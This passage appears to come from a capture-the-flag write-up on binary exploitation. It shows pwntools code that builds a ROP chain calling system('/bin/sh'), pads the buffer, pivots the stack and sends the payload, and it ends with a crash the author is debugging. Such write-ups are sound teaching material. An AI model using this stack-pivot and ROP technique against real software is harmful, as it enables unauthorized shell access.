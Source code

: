 Perfect! :chefskiss:

### Pop a shell ftw

Let's construct a second rop-chain to pop a shell. `system("/bin/sh")` is all we need.
Same procedure as last time, miss Sophie?

Change the ropchain a bit, but the offsets and calculations stuff stay the same.. No problem!

```python
rop = ROP(libc)
rop.system(next(libc.search(b'/bin/sh\0')))

payload = b'\0'*(160-0x50)
payload += bytes(rop.chain())
payload += b'\0'*(160-8-len(payload))
payload += p64(pivot_gadget)

io.sendafter(b'> ', CodeIt(payload))
```


# And we get a shell!

![NOT!](not.png)

Instead we are greeted with 
```
Child terminated with signal = 0xb (SIGSEGV)   
```

The stack look horrible and garbled. What is going on?
